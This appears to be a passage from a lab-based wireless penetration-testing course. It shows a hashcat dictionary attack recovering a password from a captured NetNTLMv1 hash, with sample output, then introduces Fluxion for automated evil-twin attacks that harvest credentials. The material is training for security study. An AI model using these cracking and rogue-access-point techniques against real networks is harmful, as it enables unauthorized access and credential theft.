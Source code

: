 To begin our attempt at cracking the hash (in order to gain access to our target access point), we need to choose a suitable wordlist, which may include our end user's password. Once we have located the desired wordlist, we can employ the following command to run a password cracking attack against our captured hash. We specify `-m 5500` for the correct hash mode, `-a 0` for the attack mode, our captured `NetNTLM` hash in Hashcat format, and finally, the dictionary file we will attempt cracking with.

```shell
hashcat -m 5500 -a 0 Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s wordlist.dict

<snip>

Administrator::::54as56d65asasd55asd564asd564asd555asd564as6d55s5:as65a4sd564d1a2s:Wowwhatasecurepassword123

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5500 (NetNTLMv1 / NetNTLMv1+ESS)
Hash.Target......: Administrator::::54as56d65asasd55asd564asd564asd55...4d1a2s
Time.Started.....: Day Mon 12 34:56:78 xxxx (0 secs)
Time.Estimated...: Day Mon 12 34:56:78 xxxx (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (wordlist.dict)
Guess.Queue......: 1/10000 (100.00%)
Speed.#1.........:     1733 H/s (0.02ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1/10000 (100.00%)
Rejected.........: 0/1 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Wowwhatasecurepassword123 -> Wowwhatasecurepassword123
Hardware.Mon.#1..: Temp: 54c Fan:  0% Util: 29% Core:1882MHz Mem:7300MHz Bus:16

```

If **Hashcat** does not work within the provided attacker VM, it is recommended to use **Pwnbox** or your **local VM** to run Hashcat.

At this stage, we will have obtained the correct password to access our target network or carry out other malicious actions.


# Using Fluxion

* * *

In this section, we will explore how to leverage [Fluxion](https://github.com/FluxionNetwork/fluxion) to automate the evil-twin attack on WPA/WPA2 networks. By using Fluxion, we can automate the process of creating a rogue access point, deauthenticating clients from the legitimate network, and harvesting credentials through a captive portal. Fluxion simplifies the steps involved, allowing us to efficiently perform the attack with minimal manual configuration.
